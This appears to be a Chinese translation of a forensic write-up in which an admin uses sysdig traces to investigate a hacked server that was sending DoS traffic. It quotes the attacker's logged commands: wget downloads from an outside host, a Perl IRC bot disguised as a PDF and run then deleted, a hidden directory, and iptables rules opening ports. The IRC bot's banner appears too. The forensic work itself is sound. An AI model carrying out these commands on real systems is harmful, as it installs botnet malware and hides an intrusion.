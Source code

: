 服务器上产生了相当多的流量，但是我并没有配置任何服务！在那之后我也不记得有安装过`/usr/sbin/httpd`和`/usr/local/apac`。接下来我们再看看网络连接：

```
$ sysdig -r trace.scap.gz -c topconns
Bytes     Proto     Connection
------------------------------
439.58M   udp       170.170.35.93:50978->39.115.244.150:800
422.24M   udp       170.170.35.93:55169->39.115.244.150:800
4.91M     tcp       85.60.66.5:59893->170.170.35.93:22
46.72KB   tcp       170.170.35.93:39193->162.243.147.173:3132
43.62KB   tcp       170.170.35.93:39194->162.243.147.173:3132
20.81KB   tcp       170.170.35.93:53136->198.148.91.146:6667
1000B     udp       170.170.35.93:0->39.115.244.150:800

```

我的主机产生了800MB的UDP流量——我的天哪！这简直就是活生生的DOS攻击。我猜测攻击者安装了一些僵尸网络的客户端，来生成相应的DOS流量，所以我当机立断地把服务器关了，确保它不会对其他人造成进一步的伤害。就我目前所掌握的信息可以确定服务器已经被攻陷了，我如果使用其他的监控工具也可以得出相同的结论。然而不同的是，我的S3 bucket里存储着全部的细节，所以我就可以开始深度挖掘实际发生的情况。我先使用我最爱的chisel，`spy_users`，看看恶意用户在登录之后干了些啥：

```
$ sysdig -r trace.scap.gz -c spy_users
06:11:28 root) cd /usr/sbin
06:11:30 root) mkdir .shm
06:11:32 root) cd /usr/sbin/.shm
06:11:39 root) wget xxxxxxxxx.altervista.org/l.tgz
06:11:40 root) tar zxvf l.tgz
06:11:42 root) cd /usr/sbin/.shm/lib/.muh/src
06:11:43 root) /bin/bash ./configure --enable-local
06:11:56 root) make all

```

看到这里发生了什么吗？攻击者使用了一个“聪明”的名字`.shm`，在`/usr/sbin`目录下创建了一个隐藏文件夹，然后下载程序的源代码并开始编译。我把上面URL中的文件下载下来了，发现它是个IRC bouncer Muh。在存档文件中，我发现一些类似于攻击者非常个人化的配置文件这样有趣的事物，其中包含了各种用户名密码还有一堆用于自动加入Undernet的IRC channel。他接下来做了这些事：

```
06:13:19 root) wget http://xxxxxxxxx.altervista.org/.sloboz.pdf
06:13:20 root) perl .sloboz.pdf
06:13:20 root) rm -rf .sloboz.pdf
06:12:58 root) /sbin/iptables -I INPUT -p tcp --dport 9000 -j ACCEPT
06:12:58 root) /sbin/iptables -I OUTPUT -p tcp --dport 6667 -j ACCEPT

```

Nice！一个perl脚本文件被下载成为一个隐藏的pdf文件。我很好奇想要了解更多的东西。不幸的是，当我试图访问以上的URL时，文件已经不复存在了。好吧，还有sysdig可以帮助我，因为它记录了每一个I/O操作（正如我在命令中指定的，每个操作最多记录4096字节的数据）。我就可以看到wget往文件中写了些啥：

```
$ sysdig -r trace.scap.gz -A -c echo_fds fd.filename=.sloboz.pdf
------ Write 3.89KB to /run/shm/.sloboz.pdf
#!/usr/bin/perl
####################################################################################################################
####################################################################################################################
##  Undernet Perl IrcBot v1.02012 bY DeBiL @RST Security Team   ## [ Help ] #########################################
##      Stealth MultiFunctional IrcBot Writen in Perl          #####################################################
##        Teste on every system with PERL instlled             ##  !u @system                                     ##
##                                                             ##  !u @version                                    ##
##     This is a free program used on your own risk.           ##  !u @channel                                    ##
```